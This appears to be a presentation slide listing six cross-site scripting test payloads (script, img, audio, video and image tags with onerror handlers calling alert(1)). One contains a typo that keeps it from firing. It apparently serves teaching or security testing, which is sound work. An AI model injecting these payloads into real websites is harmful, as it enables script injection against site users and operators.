

# DIFFERENT PAYLOADS FOR XSS:
<img src=1 href=1 onerroe="javascript:alert(1)"></img>
<script>alert(1)</script>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<image src=1 href=1 onerror="javascript:alert(1)"></image>
<script src=1 href=1 onerror="javascript:alert(1)"></script>